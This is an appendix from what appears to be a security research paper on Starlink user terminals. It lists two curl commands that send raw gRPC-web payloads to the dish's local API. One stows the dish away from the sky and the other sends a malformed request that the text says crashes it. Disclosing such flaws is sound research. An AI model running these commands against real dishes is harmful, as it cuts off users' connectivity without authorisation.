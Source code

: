 \section{gRPC HTTP Requests}\label{app:stow-and-kill}

The following shell script sends an HTTP POST request containing a gRPC command to ``stow'' the dish, turning it away from the sky.

\begin{lstlisting}
printf '\x00\x00\x00\x00\x03\x92}\x00' \
| curl 'http://192.168.100.1:9201/SpaceX.API.Device.Device/Handle' \
-X POST \
-H 'Accept: */*' \
-H 'Accept-Language: en-GB,en;q=0.5' \
-H 'content-type: application/grpc-web+proto' \
-H 'x-grpc-web: 1' \
--data-binary @- -v | xxd
\end{lstlisting}

The following shell script sends a malformed request, causing the dish to crash.

\begin{lstlisting}
printf '\x00\x00\x00\x00\x03\xea>\x00' \
| curl 'http://192.168.100.1:9201/SpaceX.API.Device.Device/Handle' \
-X POST \
-H 'Accept: */*' \
-H 'Accept-Language: en-GB,en;q=0.5' \
-H 'content-type: application/grpc-web+proto' \
-H 'x-grpc-web: 1' \
--data-binary @- -v | xxd
\end{lstlisting}